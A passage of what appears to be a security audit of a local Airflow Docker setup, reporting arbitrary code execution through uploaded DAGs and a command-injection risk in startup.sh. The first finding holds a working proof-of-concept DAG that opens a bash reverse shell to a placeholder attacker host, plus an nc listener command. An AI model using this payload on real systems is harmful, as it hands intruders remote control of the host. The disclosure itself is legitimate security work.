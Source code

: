     with DAG(
        dag_id='malicious_dag',
        schedule_interval=None,
        start_date=datetime(2024, 1, 1),
        catchup=False
    ) as dag:
        def execute_malicious_code():
            import subprocess
            # Reverse shell to attacker's machine (replace with your IP and port)
            subprocess.Popen(['/bin/bash', '-c', 'bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1'])

        run_malicious_code = PythonOperator(
            task_id='run_malicious_code',
            python_callable=execute_malicious_code,
        )
    ```
    *(Replace `attacker_ip` and `attacker_port` with the attacker's listening IP address and port.)*
    - Step 3: Start a listener on the attacker's machine using `nc -lvnp attacker_port`.
    - Step 4: Upload `malicious_dag.py` to the Airflow instance, either by copying it to the `./dags` directory which is mounted to the container, or by using the Airflow UI if DAG upload functionality is enabled and accessible.
    - Step 5: Unpause or trigger the `malicious_dag` DAG in the Airflow Web UI (http://localhost:8080).
    - Step 6: Observe that a reverse shell connection is established on the attacker's machine, indicating successful arbitrary code execution within the Airflow Docker container.

---

### Vulnerability Name: Startup Script Command Injection

- Description:
  - An attacker could modify the `startup.sh` script within a cloned repository.
  - A user, unaware of the malicious modification, clones the repository and proceeds to run the Airflow Docker image locally as instructed in the README.
  - The `run.sh` script, used to build and run the Docker image, mounts the local `./startup` directory into the container at `/usr/local/airflow/startup`.
  - During container startup, the `entrypoint.py` script executes the `startup.sh` script located at `/usr/local/airflow/startup/startup.sh` if it exists, as configured by the `MWAA__CORE__STARTUP_SCRIPT_PATH` environment variable.
  - If the attacker has inserted malicious commands into the `startup.sh` script, these commands will be executed within the Docker container with the permissions of the container's user (airflow user by default, or root user for privileged images).

- Impact:
  - Arbitrary command execution within the Docker container.
  - Potential compromise of the local development environment.
  - Depending on the commands injected, the attacker could gain access to sensitive data, modify configurations, or further compromise the user's system from within the container.

- Vulnerability Rank: High

- Currently Implemented Mitigations:
  - No direct mitigations are implemented in the project to prevent execution of malicious code in `startup.sh`.
  - The project relies on the user to review and secure their customized `startup.sh` script.
